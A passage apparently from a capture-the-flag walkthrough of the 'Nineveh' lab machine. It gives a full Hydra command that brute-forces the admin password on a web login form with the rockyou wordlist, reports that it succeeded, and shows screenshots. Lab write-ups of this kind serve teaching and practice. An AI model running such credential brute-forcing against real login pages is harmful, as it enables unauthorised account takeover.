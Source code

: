 This becomes the following command:

```bash
hydra 10.10.10.43 http-form-post "/department/login.php:username=^USER^&rememberme=1&password=^PASS^:Invalid Password!" -l admin -P rockyou.txt -vV -f
```

And this has a win:

![hydra2](./nineveh/hydra2.png)

Trying that login shows the following:

![web14](./nineveh/web14.png)
